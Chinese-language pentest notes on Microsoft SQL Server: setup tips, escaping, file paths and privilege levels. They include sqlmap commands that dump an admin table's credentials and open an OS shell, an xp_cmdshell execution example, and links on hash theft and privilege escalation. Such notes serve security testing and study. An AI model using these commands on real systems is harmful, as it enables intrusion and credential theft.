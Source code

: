 # SqlServer

端口 1433

## SqlServer 2000 在win7x64安装条件

1.计算机名更改为全用大写字符就可以了。
2.设置SETUPSQL.exe 兼容性为winxp, 管理员身份证运行

## 转义
sqlsserver 用"" 来转义 "

## 删除/备份/导入导出
cracer.mdf
cracer_log.ldf

两个文件都要备份提取。

数据库Path: C:\Progran Files\Microsoft SQL Server\MSSQL10_50.HSSOLSERVER\MSSQL\DATA

## 数据库权限
```
sa权限 - system
db权限 - users-adminstrators
public - guest-users
```

```bash
sqlmap -u http://url.php?id=1 --current-db --batch # 得到test
sqlmap -u http://url.php?id=1 --current-user
sqlmap -u http://url.php?id=1 --is-dba
sqlmap -u http://url.php?id=1 -D test --tables           # 得到admin
sqlmap -u http://url.php?id=1 -D test -T admin --columns # 得到admin,pass
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump
sqlmap -u http://url.php?id=1 -D test -T admin -C admin,pass --dump --hex
sqlmap -u http://url.php?id=1 --os-shell
```

## config密码等 

在asp web的目录下

web.config

## 命令执行

方法一：xp_cmdshell 

exec master..xp_cmdshell "whoami"默认执行是关闭 

https://blog.csdn.net/weixin_30654583/article/details/97225375

# Article
[窃取MSSQL 各版本密码 HASH](https://mp.weixin.qq.com/s/w9NqP4AqDth6sLbHAPF4AQ)
[sql server提权总结](https://mp.weixin.qq.com/s/3Q6meWdMLfls5cK1j80tFw)
[MSSQL注入和漏洞利用姿势总结](https://mp.weixin.qq.com/s/OakfrGRvYPYGFLY_30aj5w)

